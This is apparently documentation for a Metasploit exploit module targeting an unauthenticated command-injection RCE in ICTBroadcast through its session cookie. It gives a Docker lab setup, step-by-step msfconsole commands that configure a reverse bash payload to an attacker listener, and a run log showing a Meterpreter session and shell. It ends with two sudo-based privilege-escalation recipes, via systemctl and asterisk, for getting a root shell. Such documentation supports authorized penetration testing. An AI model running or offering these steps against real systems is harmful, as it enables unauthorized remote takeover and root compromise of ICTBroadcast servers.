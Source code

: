 ## Vulnerable Application

This Metasploit module exploits an **unauthenticated remote code
execution (RCE)** vulnerability in **ICTBroadcast**.
The vulnerability exists due to improper handling of session
cookies in the authentication mechanism. An attacker can inject arbitrary system commands by modifying the session cookie.

The issue affects **various versions of ICTBroadcast**, but
specific impacted releases are currently unknown. The vulnerability allows an attacker to execute shell commands **without authentication**.

## Options

None

## Testing

To test the exploit, spin up a vulnerable ICTBroadcast instance with Docker.

```yaml
services:
  db:
    image: mariadb:10.6
    container_name: ictmysql
    restart: unless-stopped
    environment:
      MYSQL_ROOT_PASSWORD: root     
      MARIADB_ROOT_HOST: '%'       
      MYSQL_DATABASE: ictbroadcast
      MYSQL_USER: ictuser
      MYSQL_PASSWORD: ictpass
    volumes:
      - db_data:/var/lib/mysql
    ports:
      - "3306:3306"

  ictbroadcast:
    image: chocapikk/ictbroadcast-cve-2025-2611:latest
    container_name: ictbroadcast
    depends_on:
      - db
    ports:
      - "80:80"
      - "443:443"
    command: >
      bash -c "
        composer --working-dir=/usr require stefangabos/zebra_pagination &&
        /usr/sbin/httpd -k start &&
        /usr/sbin/php-fpm &&
        tail -f /dev/null
      "

volumes:
  db_data:
```

1. Start the stack:

```bash
docker compose up -d
```

2. Verify that the login page is reachable at **`http://localhost/login.php`**.
   The application should issue a valid session cookie on first visit.

3. Run the Metasploit module.
   The exploit will automatically harvest the session cookie (format may vary across deployments)
   and leverage it to execute arbitrary commands via the vulnerable endpoint.

## Verification Steps
1. Start **Metasploit Framework**:
```bash
msfconsole
```

2. Load the module:
```bash
use exploit/linux/http/ictbroadcast_unauth_cookie
```

3. Set the **target IP address**:
```bash
set RHOSTS <TARGET_IP>
```

4. Set the **payload** for command execution:
```bash
set PAYLOAD cmd/unix/reverse_bash
```

5. Configure the listener:
```bash
set LHOST <YOUR_IP>
set LPORT 4444
```

6. Check if the target is vulnerable:
```bash
check
```

7. Exploit the target:
```bash
exploit
```

## Scenarios

### Unauthenticated Command Execution
**Note**: Ensure that the target is vulnerable using the `check` command before running the exploit.

**Note**: The session cookie is retrieved dynamically and modified for command injection.

```bash
msf6 exploit(linux/http/ictbroadcast_unauth_cookie) > run http://lab
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking ICTBroadcast via JS fingerprints
[+] JS fingerprint found; performing timing tests
[*] Retrieving session cookies dynamically
[*] Found cookies: BROADCAST=49b067ae1fdfbcab3d73caa1c7e6d75a
[+] The target is vulnerable. Injected RCE (slept 4s)
[*] Sending stage (3090404 bytes) to 192.168.128.3
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 192.168.128.3:53178) at 2025-08-04 17:50:33 +0200

meterpreter > sysinfo 
Computer     : 192.168.128.3
OS           : Red Hat 8.10 (Linux 6.15.8-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > shell
Process 877 created.
Channel 1 created.
SHELL=/bin/bash script -q /dev/null
bash-4.4$ sudo -l
sudo -l
Matching Defaults entries for asterisk on f7681361bd20:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User asterisk may run the following commands on f7681361bd20:
    (root) NOPASSWD: /usr/sbin/asterisk
    (root) NOPASSWD: /etc/init.d/asterisk
    (root) NOPASSWD: /etc/init.d/httpd
    (root) NOPASSWD: /etc/init.d/mysqld
    (root) NOPASSWD: /etc/init.d/kannel
    (root) NOPASSWD: /usr/sbin/ntpdate
    (root) NOPASSWD: /usr/sbin/rabbitmqctl
    (root) NOPASSWD: /bin/systemctl
bash-4.4$ 
```
#### Low-hanging LPE via systemctl

If `/bin/systemctl` is listed in sudo as NOPASSWD, you can escalate to root (outside Docker) via:

```bash
sudo systemctl 
!sh
```

*Source: [https://gtfobins.github.io/gtfobins/systemctl/#sudo](https://gtfobins.github.io/gtfobins/systemctl/#sudo)*

#### Low-hanging LPE via Asterisk NOPASSWD

If `/usr/sbin/asterisk` is listed in sudo as NOPASSWD, you can obtain a root shell by:

```bash
  # 1) Start Asterisk as root, in foreground so it creates its CLI socket
sudo asterisk -F

  # 2) Connect to the Asterisk console and drop into a root shell
sudo asterisk -r
f7681361bd20*CLI> !sh
sh-4.4#
```
